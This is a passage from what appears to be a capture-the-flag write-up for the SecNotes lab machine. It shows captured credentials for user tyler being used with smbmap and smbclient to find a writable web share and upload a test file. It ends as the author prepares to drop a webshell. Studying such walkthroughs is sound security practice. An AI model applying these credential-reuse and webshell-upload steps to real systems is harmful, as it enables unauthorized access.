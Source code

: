 Using the creds from the site, I’ll use `smbmap` to see what I now have access
to:

    
    
    root@kali# smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
    [+] Finding open SMB ports....
    [+] User SMB session establishd on 10.10.10.97...
    [+] IP: 10.10.10.97:445 Name: 10.10.10.97                                       
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY
            new-site                                                READ, WRITE
    

I’ll connect to the SMB share as tyler, and find the basics of a default IIS
site:

    
    
    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Thu Jun 21 16:24:44 2018
      ..                                  D        0  Thu Jun 21 16:24:44 2018
      iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
      iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
      web.config                          A      270  Thu Jun 21 16:21:41 2018
    
                    12978687 blocks of size 4096. 4930083 blocks available
    

This obviously isn’t the port 80 site, but it does match what I saw on the
port 8808 site earlier. I’ll test that hypothesis and find it is that site:

    
    
    root@kali# echo test > 0xdf.txt
    
    
    
    smb: \> put 0xdf.txt
    putting file 0xdf.txt as \0xdf.txt (1.2 kb/s) (average 0.6 kb/s)
    
    
    
    root@kali# curl http://10.10.10.97:8808/0xdf.txt
    test
    

## Shell as tyler

### Webshell

With access to write files over SMB and have them served back to me with php,
I can drop a webshell. Since the SecNotes site was running on php, that seems
like a good place to start. I like to start with a very basic webshell:

    
